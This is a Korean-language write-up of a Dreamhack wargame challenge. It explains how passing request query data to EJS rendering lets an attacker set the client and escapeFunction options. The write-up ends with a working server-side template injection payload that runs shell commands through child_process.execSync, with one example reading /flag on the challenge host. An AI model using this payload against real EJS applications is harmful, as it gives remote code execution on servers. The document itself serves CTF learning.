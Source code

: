 # ejs@3.1.8
https://dreamhack.io/wargame/challenges/675
## Description
find bug and exploit !

# Exploit
## Find bug
```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/', (req,res) => {
    res.render('index', req.query);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```
client에게 EJS렌더링에 대해 무제한 엑세스 권한을 부여해 취약점이 발생한다.
https://github.com/mde/ejs/blob/main/SECURITY.md
<br><br>

### ejs@3.1.6
```js
if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
          opts.views = data.settings.views;
        }
        if (data.settings['view cache']) {
          opts.cache = true;
        }
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
      }
```
`opts`에 원하는 값을 넣을 수 있다.
<br><br>

```js
if (opts.outputFunctionName) {
  if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) {
    throw new Error('outputFunctionName is not a valid JS identifier.');
  }
  prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
즉 `opts.outputFunctionName`을 덮어쓸수 있었다.    
https://eslam.io/posts/ejs-server-side-template-injection-rce/

###  > ejs@3.1.6
```js
compile: function (){

    // ~~~

    // Line 580
    var escapeFn = opts.escapeFunction;

    // ~~~

    // Line 591
    if (opts.outputFunctionName){
        if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
          throw new Error('outputFunctionName is not a valid JS identifier.');
      
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
    }

    // ~~~

    // Line 636
    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }

    // ~~~
}
```
https://github.com/mde/ejs/blob/5b13088c6de0bff1ce5c6ff2eef7ee7eff0d6f3e/lib/ejs.js#L571
<br><br>

```js
if (opts.outputFunctionName){
    if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
      throw new Error('outputFunctionName is not a valid JS identifier.');
  
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
유저가 직접 사용가능한 `opts.escapeFunction`같은 함수는 `if (!_JS_IDENTIFIER.test(opts.outputFunctionName))`으로 검사한다. 
<br><br>

```js
var escapeFn = opts.escapeFunction;
```
하지만 `opts.escapeFunction`은 이미 `escapeFn`에 저장되어있다.
<br><br>

```js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```
`opts.client`가 `true`라면 컴파일엔 `escapeFn.toString()`가 담긴다.

### Payload
`?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("calc");`
<br><br>

## Exploit
`http://host3.dreamhack.games:<PORT>/?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("cat /flag");`
